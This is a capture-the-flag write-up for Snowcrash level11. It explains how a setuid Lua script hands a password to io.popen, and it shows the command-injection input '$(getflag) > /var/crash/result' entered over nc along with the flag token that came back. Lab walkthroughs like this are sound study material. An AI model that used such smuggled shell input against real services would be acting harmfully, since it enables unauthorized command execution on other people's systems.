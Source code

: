 # <center>Snowcrash level11</center>

# Explanations

<br/>

## On VM:

> $ ls -l
>> -rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua

- The script hashes a string to compare it to an existing hash.
- To hash this string, the script uses the io.popen function that executes commands in the shell.
- We will pass as a password the command getflag 
- The /tmp folder is blocked. Let's look for an accessible folder.

> $ ls -l /var/
>> drwxrwsrwt 2 root whoopsie   3 Mar 12  2016 crash

> $ nc localhost 5151
>> Password: $(getflag) > /var/crash/result

> $ cat /var/crash/result
>> Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
